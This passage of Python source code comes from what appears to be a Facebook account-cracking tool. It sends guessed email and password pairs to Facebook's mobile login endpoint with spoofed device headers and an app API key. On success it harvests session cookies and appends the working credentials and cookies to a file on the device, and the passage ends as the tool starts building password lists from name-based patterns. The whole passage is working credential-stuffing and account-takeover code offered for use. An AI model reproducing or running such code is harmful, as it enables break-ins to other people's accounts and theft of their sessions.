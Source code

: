                     "cpl": "true",
                    "family_device_id": str(uuid.uuid4()),
                    "credentials_type": "device_based_login_password",
                    "error_detail_type": "button_with_disabled",
                    "source": "device_based_login",
                    "email": sid,
                    "password": ps,
                    "access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
                    "generate_session_cookies": "1",
                    "meta_inf_fbmeta": "",
                    "advertiser_id": str(uuid.uuid4()),
                    "currently_logged_in_userid": "0",
                    "locale": "en_GB",
                    "client_country_code": "GB",
                    "method": "auth.login",
                    "fb_api_req_friendly_name": "authenticate",
                    "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                    "api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': '[FBAN/FB4A;FBAV/305.1.0.40.120;FBBV/272401209;FBDM/{density=2.0,width=720,height=1456};FBLC/it_IT;FBRV/273474118;FBCR/I TIM;FBMF/OPPO;FBBD/OPPO;FBPN/com.facebook.katana;FBDV/CPH1931;FBSV/10;FBBK/1;FBOP/1;FBCA/arm64-v8a:;]',
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'Host': 'graph.facebook.com',
                    'X-FB-Net-HNI': str(random.randint(20000, 40000)),
                    'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
                    'X-FB-Connection-Type': 'MOBILE.LTE',
                    'X-Tigon-Is-Retry': 'False',
                    'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
                    'x-fb-device-group': '5120',
                    'X-FB-Friendly-Name': 'ViewerReactionsMutation',
                    'X-FB-Request-Analytics-Tags': 'graphservice',
                    'X-FB-HTTP-Engine': 'Liger',
                    'X-FB-Client-IP': 'True',
                    'X-FB-Server-Cluster': 'True',
                    'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);swagb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={swagb};{ckkk}"
                    print(f"\r\r{G1}[EHC-OK] {sid} | {ps} ")
                    open('/sdcard/EHC-M2-FILE-OK.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    oks.append(sid)
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    print(f"\r\r{M}[EHC-CP] {sid} | {ps} ")
                    open('/sdcard/EHC-M2-FILE-OK.txt','a').write(sid+'|'+ps+'\n')
                    cps.append(sid)
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodC(sid, name, ps)
#__________________[ PASSWORD ]__________________#
    def pasw(self):       
            pw = []
            clear()
            print(f'{G1}[{A}={G2}]{G2} EXAMPLE {A}:{G2} BD 10-18/INDIA 3-5');linex()
            sl = int(input(f'{G1}[{A}?{G3}]{G3} PASSWORD LIMIT {A}:{G3} '))
            clear()
            print(f'{G1}[{A}?{G4}]{G4} EXAMPLE {A}:{G4} first123/firstlast/first@@@')
            linex()